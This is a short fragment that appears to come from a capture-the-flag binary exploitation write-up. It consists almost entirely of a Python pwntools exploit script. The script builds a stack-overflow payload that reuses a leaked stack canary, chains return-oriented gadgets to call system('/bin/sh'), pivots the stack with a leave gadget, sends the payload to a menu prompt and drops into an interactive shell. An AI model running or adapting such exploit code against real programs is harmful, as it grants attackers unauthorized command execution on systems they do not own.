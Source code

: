 ```python
target_rbp = grand_rbp - 0x20 - 0x70 + (0x10 - 0x8) + 0x8
payload = b'a' * (0x10 - 0x8) + p64(canary) + p64(grand_rbp) + p64(bin_pop_rdi_ret) + \
    p64(libc_str_bin_sh) + p64(libc_system) + p64(bin_func_main) + \
    b'b' * (0x70 - (0x10 - 0x8) - (0x8 * 6) - 0x8) + \
    p64(canary) + p64(target_rbp) + p64(bin_leave)

p.sendlineafter(b'Your choice:', b'2')
p.sendlineafter(b'input sth', payload)
p.interactive()
```
